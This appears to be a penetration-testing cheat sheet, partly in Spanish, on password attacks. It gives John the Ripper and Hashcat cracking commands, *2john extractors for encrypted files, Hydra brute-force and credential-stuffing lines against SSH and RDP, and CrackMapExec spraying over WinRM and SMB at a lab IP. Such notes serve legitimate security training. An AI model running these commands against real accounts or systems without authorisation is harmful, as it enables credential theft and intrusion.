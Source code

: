 # John The Ripper

```c
john --format=<hash_type> <hash or hash_file>
```

```c
john --format=sha256 hashes_to_crack.txt
```

```c
john --wordlist=<wordlist_file> --rules <hash_file>
```

#### Incremental Mode in John

```c
john --incremental <hash_file>
```

## Cracking Files

```c
<tool> <file_to_crack> > file.hash
pdf2john server_doc.pdf > server_doc.hash

john server_doc.hash
# OR
john --wordlist=<wordlist.txt> server_doc.hash 
```

```c
locate *2john*

/usr/bin/bitlocker2john
/usr/bin/dmg2john
/usr/bin/gpg2john
/usr/bin/hccap2john
/usr/bin/keepass2john
/usr/bin/putty2john
/usr/bin/racf2john
/usr/bin/rar2john
/usr/bin/uaf2john
/usr/bin/vncpcap2john
/usr/bin/wlanhcx2john
/usr/bin/wpapcap2john
...SNIP...
```

# Hydra

```c
hydra -L user.list -P password.list ssh://10.129.42.197
```

```c
 hydra -L user.list -P password.list rdp://10.129.42.197
```

#### Credential Stuffing - Hydra Syntax

```c
 hydra -C <user_pass.list> <protocol>://<IP>
```

```c
hydra -C user_pass.list ssh://10.129.42.197
```
# CrackMapExec

```c
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```c
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```c
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

```c
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

# Password Mutations

### Hashcat Rule File

```c
cat custom.rule
```

### Generating Rule-based Wordlist

```c
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.lis
```

### Hashcat Existing Rules

```c
ls /usr/share/hashcat/rules/
```

### Generación de listas de palabras basadas en reglas


| *Función** | **Descripción**                                                   |
| ---------- | ----------------------------------------------------------------- |
| `:`        | No hacer nada                                                     |
| `l`        | Poner todas las letras en minúscula.                              |
| `u`        | Todas las letras en mayúsculas.                                   |
| `c`        | Escriba con mayúscula la primera letra y con minúscula las demás. |
| `sXY`      | Reemplazar todas las instancias de X con Y.                       |
| `$!`       | Añade el carácter de exclamación al final.                        |
```c
cat custom.rule

:
c
so0
c so0
sa@
c sa@
c sa@ so0
$!
$! c
$! so0
$! sa@
$! c so0
$! c sa@
$! so0 sa@
$! c so0 sa@
```

```c
$ hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
$ cat mut_password.list

password
Password
passw0rd
Passw0rd
p@ssword
P@ssword
P@ssw0rd
password!
Password!
```

